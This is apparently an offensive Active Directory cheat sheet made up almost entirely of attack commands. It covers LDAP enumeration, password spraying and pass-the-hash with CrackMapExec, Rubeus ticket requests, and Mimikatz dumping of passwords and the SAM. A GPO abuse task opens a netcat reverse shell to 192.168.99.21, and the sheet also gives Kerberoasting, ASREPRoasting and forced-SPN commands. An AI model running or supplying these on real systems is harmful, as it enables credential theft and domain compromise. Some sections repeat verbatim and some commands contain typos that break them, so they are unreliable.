 # Active Directory
======
#### Dump Domain (ldapdomaindump)
ldapdomaindump ldap://<domain> -u 'DOMAIN\user' -p 'password'
#### Dump Users (nmap)
nmap -p 389 --script-args 'ldap.username="cn=myUser,cn=users,dc=myDomain,dc=local",ldap.password=P@ssw0rd,ldap.qfilter=users,ldap.attrip=sAMAccountName' myDomain.local
#### Return list of users
cat domain_users.grep | awk '{print $1}' > users.txt
#### Return list of computers + IPs
cat domain_computers.grep | awk '{print $3}' | grep -v dNS | xargs dig a @192.168.105.10 | grep kortana.local | egrep -v "^;" | awk '{print $5"-"$1}' | cut -d '.' -f1-4 | tr [[:lower:]] [[:upper:]]
#### mkdir in a loop
for dir in $(cat domain_computers.grep | awk '{print $3}' | grep -v dNS | xargs dig a @192.168.105.10 | grep kortana.local | egrep -v "^;" | awk '{print $5"-"$1}' | cut -d '.' -f1-4 | tr [[:lower:]] [[:upper:]]); do mkdir ~/$dir; done

## Password Spraying
------
#### Password Spraying (CrackMapExec)
crackmapexec smb -u /path/to/users.txt -p /path/to/passwords.txt 192.168.0.0/24
#### Spray with Local Administrator Password
crackmapexec smb 192.168.0.0/24 -u Administrator --local-auth -H <NTLM:hash>
#### Remote Desktop
xfreerdp /u:DOMAIN\user /p:<pass> /v:<ip>
#### Rubeus (get TGT and apply to new process)
Rubeus.exe asktgt /user:<user> /rc4:<NTLM hash> /createnetonly:cmd.exe /show /domain:<domain> /dc:<dc-ip>
#### Mimikatz programmatically dump passwords
mimikatz.exe "privilege::debug" "log .\logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit
#### Create Immediate GPO Task
SharpGPOAbuse.exe --AddComputerTask --TaskName "New Task" --Author "DOMAIN\user" --Command "cmd.exe" --Arguments "/c C:\Temp\nc.exe -v 192.168.99.21 443 -e cmd"  --GPOName Name-of-GPO
#### Local Administrator Password
crackmapexec smb 192.168.0.0/24 -u Administrator --local-auth -H <NTLM:hash>
#### Remote Desktop
xfreerdp /u:DOMAIN\user /p:<pass> /v:<ip>
#### Rubeus (get TGT and apply to new process)
Rubeus.exe asktgt /user:<user> /rc4:<NTLM hash> /createnetonly:cmd.exe /show /domain:<domain> /dc:<dc-ip>
#### Mimikatz programmatically dump passwords
mimikatz.exe "privilege::debug" "log .\logs\Result.txt" "sekurlsa::logonPasswords" "token::elevate" "lsadump::sam" exit

## Kerberoast
------
#### Find Service Accounts (PowerView)
Get-NetUser -SPN
#### Find Service Accounts (PowerShell)
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
#### Find Service Accounts (Impacket)
python GetUserSPNs.py domain.local/domainUser:abc123 -outputfile outfile.txt
#### Do Kerberoasting (PowerView)
Invoke-Kerberoast

## ASREPRoast
------
#### ASREPRoast (PowerView)
Get-DomainUser -PreauthNotRequired -Verbose
#### ASREPRoast (PowerShell)
Get-ADUser -Filter {DoesNoteRequirePreAuth -eq $True} -Properties DoesNoteRequirePreAuth
#### Do ASREPRoasting, targeted user
Get-ASREPHash -UserName myUser -Verbose
#### Do ASREPRoasting, all users
Invoke-ASREPRoast -Verbose
#### Do ASREPRoasting (Rubeus)
.\Rubeus.exe asreproast /outfile:outfile.txt
#### Do ASREPRoasting (Impacket)
python GetNPUsers.py domain.local/ -usersfile users.txt -outputfile outfile.txt

## Force Set SPN (in order to kerberoast an account!)
------
#### Set SPN on Account (PowerView)
Set-DomainObject myUSer -Set @{serviceprincipalname='ops/whatever1'}
#### Set SPN on Account (PowerShell)
Set-ADUser -Identiny <UserName> -ServicePrincipalNames @{Add='ops/whatever1'}
